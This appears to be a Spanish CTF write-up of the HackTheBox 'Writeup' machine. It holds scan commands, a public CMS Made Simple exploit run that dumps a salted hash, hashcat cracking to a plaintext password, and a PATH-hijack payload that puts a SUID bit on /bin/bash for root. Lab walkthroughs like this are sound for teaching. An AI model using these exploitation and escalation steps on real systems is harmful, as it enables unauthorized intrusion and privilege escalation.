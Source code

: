 - Tags: #web_enumeration #linux #pathhijacking #process_enumeration #cracking_hash_salt

![portada.png](/assets/images/WriteUp/portada.png)

----------
# RECONOCIMIENTO

- Verificación de `SO`

```bash
ping -c 1 10.10.10.138
```

- Escaneo de puertos abiertos dentro de la maquina

```bash
namp -p- --open -sS --min-rate 5000 -vvv -n -Pn 10.10.10.138 -oG allPorts
```

- Información mas detallada sobre los servicios que corren por detrás de los puertos abiertos

```bash
nmap -p80,22 -sCV 10.10.10.138 -oN targeted
```

- Script de reconocimiento básico sobre los directorios abiertos

```bash
nmap -p80 --script=http-enum 10.10.10.138 -oN webScan
```

- Información básica sobre la pagina web

```bash
whatweb http://writeup.htb/writeup/
```

---------
# EXPLOTACIÓN

- **Nos damos cuenta de que es un CMS Made Simple 2019**

![Pasted image 20240829225020.png](/assets/images/WriteUp/Pastedimage20240829225020.png)

- **Ejecutamos el exploit y lo que sacamos de el es lo siguiente:**

```bash
python2.7 46635.py -u http://10.10.10.138/writeup
[+] Salt for password found: 5a599ef579066807
[+] Username found: jkr
[+] Email found: jkr@writeup.htb
[+] Password found: 62def4866937f08cc13bab43bb14e6f7
```

----------
# CRACKEO DE PASSWORDS

**Como vemos encontramos dos hashes, uno es un hash `md5` normal y otro pone `salt` , por lo que sabemos que la password se ha hasheado con un `salt`, por lo que para descifrar dicho `hash` haremos lo siguiente:**

>Fichero hash.txt

```bash
62def4866937f08cc13bab43bb14e6f7:5a599ef579066807
```

**Hemos puesto el hash al principio separado por `:` el salt**

>Comando de hashcat:


```bash
hashcat -m 20 -a 0 -o cracked.txt hash.txt /usr/share/wordlists/rockyou.txt
```

- Resultado:

```bash
File: cracked.txt
───────┼────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────
   1   │ 62def4866937f08cc13bab43bb14e6f7:5a599ef579066807:raykayjay9
```

-------------
# SSH

```bash
❯ ssh jkr@10.10.10.138
jkr@10.10.10.138's password: 
Linux writeup 6.1.0-13-amd64 x86_64 GNU/Linux

The programs included with the Devuan GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Devuan GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
Last login: Thu Aug 29 13:25:30 2024 from 10.10.16.4
jkr@writeup:~$
```

**USER**

```bash
jkr@writeup:~$ cat user.txt 
a7e8af276747a411dc39b0206d00e219
jkr@writeup:~$
```

-----------
# ESCALADA DE PRIVILEGIOS

- **Al ejecutar el comando `id` vemos lo siguiente:**

```bash
jkr@writeup:~$ id
uid=1000(jkr) gid=1000(jkr) groups=1000(jkr),24(cdrom),25(floppy),29(audio),30(dip),44(video),46(plugdev),50(staff),103(netdev)
```

- **Como vemos hay un grupo `staff` que se sale de lo normal, por lo que vamos a ver que es lo que hace este grupo en especifico.**

>`STAFF`
- `Allows users to add local modifications to the system (/usr/local) without needing root privileges (note that executables in /usr/local/bin are in the PATH variable of any user, and they may "override" the executables in /bin and /usr/bin with the same name). Compare with group "adm", which is more related to monitoring/security.`

**Por lo que al ser del grupo `staff` podemos escribir en `usr/local/bin` & `usr/local/sbin`**

>Ambas rutas suelen estar en la variable de entorno $PATH del usuario root, lo que significa
>lo que significa que podríamos reemplazar un programa que root probablemente ejecute fuera de esos directorios con un archivo malicioso que contenga una carga útil que nos permita escalar nuestros privilegios que contenga una carga útil que nos permita escalar nuestros privilegios.

- **Para ver los procesos que esta ejecutando el usuario `root` en el sistema hacemos lo siguiente**

`Ejecutamos el script pspy`

```bash
jkr@writeup:/tmp/$ ./pspy32
```

----------
# PATH HIJACKING

**Al ejecutar la herramienta vemos lo siguiente interesante:**

```bash
<...SNIP...>
2019/06/09 08:45:43 CMD: UID=0 PID=8528 | sshd: [accepted]
2019/06/09 08:45:43 CMD: UID=0 PID=8529 | sshd: [accepted]
2019/06/09 08:45:43 CMD: UID=0 PID=8530 | sshd: jkr [priv]
2019/06/09 08:45:43 CMD: UID=0 PID=8531 | sh -c /usr/bin/env -i
PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin run-parts --
lsbsysinit /etc/update-motd.d > /run/motd.dynamic.new
2019/06/09 08:45:43 CMD: UID=0 PID=8532 | run-parts --lsbsysinit /etc/update-
motd.d
2019/06/09 08:45:43 CMD: UID=0 PID=8533 | /bin/sh /etc/update-motd.d/10-uname
<...SNIP...>
```

Como vemos se esta haciendo una llamada a la función `run-parts`, en el directorio `/bin` cada vez que un cliente nuevo se conecta por ssh. Por lo que podemos hacer es crear un script llamado `run-parts` que haga lo siguiente:

```bash
echo -e '#!/bin/bash\n\nchmod u+s /bin/bash' > /usr/local/bin/run-parts; chmod +x /usr/local/bin/run-parts
```

**Esto lo que hará es que como el sistema empezara buscando por el principio del `PATH` hasta encontrar el binario `run-parts`, nosotros ponemos nuestro binario malicioso al principio del `PATH` que tenemos permisos de escritura y esto en vez de hacer las funciones de `run-parts` nos proporcionara una `/bin/bash suid`**

- De ultimas ejecutar un `bash -p` y nos dará una shell `root`.
